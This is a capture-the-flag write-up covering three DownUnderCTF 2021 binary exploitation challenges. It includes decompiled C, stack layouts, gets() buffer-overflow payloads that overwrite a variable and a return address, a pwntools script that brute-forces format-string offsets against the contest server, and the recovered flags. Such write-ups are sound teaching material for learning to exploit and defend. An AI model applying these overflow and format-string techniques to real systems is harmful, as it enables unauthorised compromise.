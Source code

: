 # Challenge name: deadcode

### Description
I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

## Decompiled code
![image](https://user-images.githubusercontent.com/69805864/134916543-67ad3df0-1710-473c-a6bc-d1e7dfb5824f.png)

### Methodology
From the code, we can see that `v5` is set to 0 but in line 11 it check `if v5 == 3735929054`, user's input is `v4` and the program use `gets` which is not check the input. So this challenge is a stackoverflow challenge.

## Exploit

![image](https://user-images.githubusercontent.com/69805864/134918553-62e3748f-ebe1-44e5-876e-73b323f08593.png)
 Via the assembly code above, we have a stack like this:
 
 ![image](https://user-images.githubusercontent.com/69805864/134919113-6398147e-1f48-48b9-9f80-7a02a17d0a72.png)

So our input should be have first 24 bytes for padding and last 8 bytes to override `v5` which is `\xde\xc0\xad\xde\x00\x00\x00\x00` because linux use little endian.

### Exploit code

```
exploit = "0"*24
exploit += "\xde\xc0\xad\xde\x00\x00\x00\x00"
print(exploit)
print("cat flag.txt")
```

Run the code and we wil get the flag
![image](https://user-images.githubusercontent.com/69805864/134920984-789b16d3-e0f5-4ec5-8af0-9a1decd12873.png)

## Flag
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}



# ==========================================================================================

# Challenge name: Leaking like a sieve

### Description
This program I developed will greet you, but my friend said it is leaking data like a sieve, what did I forget to add?

## Decompiled code
```
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  FILE *stream; // [rsp+8h] [rbp-58h]
  char format[32]; // [rsp+10h] [rbp-50h] BYREF
  char s[40]; // [rsp+30h] [rbp-30h] BYREF
  unsigned __int64 v6; // [rsp+58h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  buffer_init(argc, argv, envp);
  stream = fopen("./flag.txt", "r");
  if ( !stream )
  {
    puts("The flag file isn't loading. Please contact an organiser if you are running this on the shell server.");
    exit(0);
  }
  fgets(s, 32, stream);
  while ( 1 )
  {
    puts("What is your name?");
    fgets(format, 32, stdin);
    printf("\nHello there, ");
    printf(format);
    putchar(10);
  }
}
```

### Methodology
As we can see from the code above, the progam load flag and save it to `s`, our input is saved to `format` and use `printf` to print it `printf(format)`. So this is a format string challenge.

## Exploit

Enter `%x` and we see that it print hex value which is the value in stack

![image](https://user-images.githubusercontent.com/69805864/134924126-ff42a592-4d14-40ab-ae5a-26ff0ff2527c.png)

Because we don't know where the flag store in stack, we brute force it by using `%(offset)$s` to print value in stack

```
from pwn import *

for i in range(100):
  try:
    sh = remote('pwn-2021.duc.tf', 31918)
    sh.sendlineafter('What is your name?\n', '%{}$s'.format(i))
    print (sh.recvline())
    print (i, sh.recvline())
    sh.close()
  except EOFError:
    pass
```

In the 6th iteration it print the flag

![image](https://user-images.githubusercontent.com/69805864/134925404-4ba56e8a-b232-4d76-9b61-724ac78cb96a.png)

## Flag
DUCTF{f0rm4t_5p3c1f13r_m3dsg!}


# ==========================================================================================

# Challenge name: outBackdoor

### Description
Fool me once, shame on you. Fool me twice, shame on me.

## Decompiled code


```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  buffer_init(argc, argv, envp);
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(v4);
  return 0;
}
```


### Methodology
According the code above our input is `v4` and use `gets` which doesn't check lenght of the input. So this maybe a stackoverflow challenge again. There is nothing more in main fuction. Let's take a look at function window in IDA

![image](https://user-images.githubusercontent.com/69805864/134927255-56ab6e7e-cf8a-41a7-820b-46b661e79fc2.png)

We found that there is a suspicious function name `outBackdoor`.

```
int outBackdoor()
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  return system("/bin/sh");
}
````

The function return `system("/bin/sh")` where could be store `flag.txt`. We have to override the return address of the stack to redirect to the return of `outBackdoor` function.

## Exploit

![image](https://user-images.githubusercontent.com/69805864/134929385-765407b7-901b-478e-bc93-ff47b8ee34c8.png)

Via the assembly code we have stack like this:

![image](https://user-images.githubusercontent.com/69805864/134929835-f55f8abd-6708-4763-bf09-f6d0555e5bab.png)

So our input should be have 24 bytes to padding and 8 bytes to override the return address replaced with address of the return of `outBackdoor` function which is `\xe7\x11\x40\x00\x00\x00\x00\x00`.

![image](https://user-images.githubusercontent.com/69805864/134930477-6ed3f570-1942-49a7-9237-9b3da56c34e4.png)

### Exploit code

```
exploit = "0"*24
exploit += '\xe7\x11\x40\x00\x00\x00\x00\x00'
print(exploit)
print("cat flag.txt")

```
Run the code and we will get the flag.

![image](https://user-images.githubusercontent.com/69805864/134930875-35fa11cd-cc96-4005-8655-6d6106a8d46b.png)

## Flag
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}
